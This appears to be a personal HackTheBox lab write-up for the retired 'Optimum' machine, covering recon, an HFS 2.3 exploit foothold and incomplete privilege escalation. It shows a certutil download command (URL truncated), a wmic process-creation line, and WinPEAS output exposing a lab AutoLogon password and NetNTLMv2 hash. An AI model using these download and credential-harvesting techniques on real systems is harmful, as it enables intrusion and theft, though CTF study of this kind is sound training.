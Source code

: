 Name: Optimum
Date:  26/10/2022
Difficulty:  Easy
Goals:  OSCP Prep
Learnt:
- wesng might just be a privesc rabbit hole of doom

## Recon

![ping](HackTheBox/Retired-Machines/Optimum/Screenshots/ping.png)

Firstly reviewing nmap it found HFS 2.3 then quick `searchsploit HFS 2.3` found the below
![](nmaptosearchsploit.png)

## Exploit && Foothold

With some minor configurations the outcome of this script as show below, also it is not slow just requires an press of the  `[RETURN/ENTER]` key to drop into the shell
![](foothold.png)

The kostas user has no token PrivEscs

![900](kostas.png)
      
## PrivEsc

![](tasklistsvcs.png)

[[Optimum-Systeminfo]]

Trusty LOLBAS
```powershell
certutil -urlcache -split -f http://
```

WinPEAS found:
![1000](itsrightthere.png)

![](icaclshfsexe.png)

![](addkostas.png)
But it failed. Returning to this box. This shell is awesome, I cant execute anything. But by the power of red teaming off the land! Use wmic:

```shell-session
wmic.exe process call create C:\users\kostas\desktop
```

![](powerofwmic.png)

```
    Some AutoLogon credentials were found
    DefaultUserName               :  kostas
    DefaultPassword               :  kdeEjDowkS*

kostas::OPTIMUM:1122334455667788:3b3d8bac1f1ab5d127d918b5b40bd363:0101000000000000137b0de881f2d8012d0cb1d6220e22e6000000000800300030000000000000000000000000200000f4b900b0ef6cbf93c4855021fbc634aa7ef004d983943a7377c12abf28167baf0a00100000000000000000000000000000000000090000000000000000000000
```


![](betterwinpeas1.png)


![](vmwareisddangerous.png)